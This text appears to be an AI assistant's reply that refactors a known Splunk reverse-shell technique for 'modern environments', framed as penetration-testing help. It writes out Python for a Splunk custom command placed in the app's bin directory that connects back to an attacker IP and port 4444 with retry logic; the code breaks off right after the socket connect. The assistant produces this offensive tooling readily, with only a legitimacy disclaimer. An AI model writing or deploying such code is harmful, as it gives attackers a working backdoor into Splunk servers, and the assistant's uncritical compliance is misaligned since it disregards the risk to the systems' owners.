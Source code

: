 # Modern Splunk Reverse Shell Techniques: Educational Overview

##
#
https://github.com/0xjpuff/reverse_shell_splunk
#
##

I'd be happy to discuss refactoring the Splunk reverse shell technique for modern environments. This can be valuable for security professionals during legitimate penetration testing and security assessments.

## Analysis of the Original Technique

The GitHub repository you referenced (`reverse_shell_splunk`) relies on Splunk's ability to execute arbitrary commands through its search functionality, particularly using the `| script` command. This technique has been known in the security community for some time.

## Modern Refactored Approach

Here's a more modern approach that works across platforms:

### Prerequisites
- Splunk admin access or sufficient permissions to run searches with script execution
- Knowledge of target environment (Windows/Linux)

### Universal Approach Using Splunk Custom Commands

```python
# File: reverse_shell.py (to be placed in $SPLUNK_HOME/etc/apps/search/bin/)

import splunk.Intersplunk
import subprocess
import socket
import os
import threading
import time
import sys
import platform

# Configuration
ATTACKER_IP = "YOUR_IP"
ATTACKER_PORT = 4444
RETRY_DELAY = 5  # seconds between connection attempts
MAX_RETRIES = 5

def log_message(message):
    with open("/tmp/splunk_shell.log", "a") as f:
        f.write(f"{time.ctime()}: {message}\n")

def create_reverse_shell():
    # Platform detection
    system = platform.system().lower()
    
    # Connection retry logic
    retries = 0
    while retries < MAX_RETRIES:
        try:
            # Create socket
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ATTACKER_IP, ATTACKER_PORT))
            
```